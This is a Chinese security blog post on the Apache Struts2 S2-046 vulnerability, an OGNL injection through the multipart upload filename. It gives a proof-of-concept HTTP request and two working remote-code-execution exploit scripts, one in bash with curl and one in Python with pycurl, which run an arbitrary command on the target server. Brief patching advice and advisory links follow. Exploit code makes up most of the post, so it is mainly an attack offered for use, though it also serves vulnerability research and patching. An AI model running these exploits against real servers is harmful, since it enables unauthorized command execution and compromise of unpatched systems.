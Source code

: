 ```yaml
---
title: Struts2-046漏洞
date: 2017-03-21 10:41:05
comments: true
tags: 
- struts2漏洞
- struts2 Poc
categories: web安全
password:
copyright: true
---
```

<blockquote class="blockquote-center">屋漏偏逢连夜雨，船迟又遇打头风</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*
　　Apache Struts 2 2.3.32之前的2 2.3.x版本和2.5.10.1之前的2.5.x版本中的Jakarta Multipart解析器存在安全漏洞，该漏洞源于程序没有正确处理文件上传。攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程任意代码执行，S2-046与S2-045漏洞属于同一类型，不同向量。如果在之前S2-045漏洞曝光后用户已经升级过官方补丁，这次就不受影响。
<!--more -->

### 触发条件
1.上传文件的大小（由Content-Length头指定）大于Struts2允许的最大大小（2GB）。
2.文件名内容构造恶意的OGNL内容。

### S2-046PoC
```bash
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```
### Exp
#### Sh版
```bash
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")

printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```
sh exploit-cd.sh http://xxx.com/action "whoami"

#### Python版
```bash
__author__ = 'hackteam.cn'
import pycurl
import StringIO
import urllib
def tt(url,data):
    sio = StringIO.StringIO()
    c = pycurl.Curl()
    c.setopt(pycurl.URL, url)
    c.setopt(pycurl.REFERER, url)
    c.setopt(pycurl.HTTPHEADER, ['Connection: close', 'Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150', 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36'])
    c.setopt(pycurl.HTTP_VERSION, pycurl.CURL_HTTP_VERSION_1_0)
    c.setopt(pycurl.POST, 1)
    c.setopt(pycurl.POSTFIELDS, data)
    c.setopt(pycurl.CONNECTTIMEOUT, 300)
    c.setopt(pycurl.TIMEOUT, 300)
    c.setopt(pycurl.WRITEFUNCTION, sio.write)
    try:
        c.perform()
    except Exception, ex:
        pass
    c.close()
    resp = sio.getvalue()
    sio.close()
    return resp

data="-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--\r\n\r\n"
print tt('https://xxx.action',data)
```
### 修复建议
1. 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
2. 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（强烈推荐）

### 官网公告
https://cwiki.apache.org/confluence/display/WW/S2-045
https://cwiki.apache.org/confluence/display/WW/S2-046


### 补丁地址
Struts 2.3.32：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32 
Struts 2.5.10.1：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1 


### 参考
http://struts.apache.org/docs/s2-045.html
http://struts.apache.org/docs/s2-046.html
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723


### 传送门
[struts2-052漏洞](http://thief.one/2017/09/06/1)
[struts2-046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)
